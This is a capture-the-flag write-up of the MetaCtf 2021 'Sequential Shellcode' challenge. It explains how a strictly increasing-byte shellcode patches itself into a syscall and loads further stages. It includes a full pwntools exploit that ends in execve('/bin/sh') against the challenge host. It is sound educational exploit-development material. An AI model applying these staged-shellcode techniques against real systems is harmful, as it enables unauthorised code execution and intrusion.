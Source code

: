 ## Sequential Shellcode

was a shellcoding pwn challenge from MetaCtf 2021.

A very interesting one, got first blood on it, and there was only one solve..

So the concept was to write a shellcode where every byte must be bigger then the preceding one..

a increasing only shellcode..more or less...

The shellcode is copied to a memory zone RWX mapper at address 0x0000133713370000

first we use the fact that in the register rcx, you will get the length of shellcode less 1.

so we send a shellcode of length 0x10 to have 0x0f in rcx..

that will be usefull for us...

let's see registers state when we enter the shellcode:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Sequential.Shellcode/pics/registers.png)

you can see that we set rcx to 0x0f above.

first we will use:

`04 05       add al,5`

like this we can change it to a syscall with the next instruction, that will modify the 04 opcode to 0F

`  or byte ptr[rdx],cl`

now we have a syscall at the address 0x0000133713370000 where our shellcode start.

then we clear al, to make rax pointing again to shellcode start.

then we set the registers correctly to call read..

and we jump back to the beginning of the shellcode, and we will read a second shellcode non restricted above the first one..

this second shellcode will read a third one , that will do execve("/bin/sh", 0,0)

and that's all

so here is my solution:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Sequential.Shellcode/pics/bytes.png)


```asm
begin:
  add al,5
  or byte ptr[rdx],cl
  and al,0x28
  push rax
  push rcx
  push rbx
  pop rax
  pop rdx
  pop rsi
  jno begin
  .byte 0xf5,0xf6
```

and the full exploit:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./sequential')

host, port = "host.cg21.metaproblems.com", "3340"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

shellc = asm('''
begin:
  add al,5
  or byte ptr[rdx],cl
  and al,0x28
  push rax
  push rcx
  push rbx
  pop rax
  pop rdx
  pop rsi
  jno begin
  .byte 0xf5,0xf6

''')

print(hexdump(shellc))

payload = shellc
p.sendlineafter('bytes?\n', str(len(payload)))


for i in payload:
  p.sendlineafter('> ', str(ord(i)))

shellc2 = asm('''
  .byte 0xf,0x05
  xor eax,eax
  push 0x40
  pop rdx
  syscall
''')

p.send(shellc2.ljust(15,'\x90'))

shellc3 = asm('''
  .byte 0x90,0x90,0x90,0x90,0x90,0x90, 0x90,0x90,0x90
  xor esi, esi
  push rsi
  mov rbx, 0x68732f2f6e69622f
  push rbx
  push rsp
  pop rdi
  imul esi
  mov al, 0x3b
  syscall
''')

p.send(shellc3)

p.interactive()
```

*nobodyisnobody still pwning things*
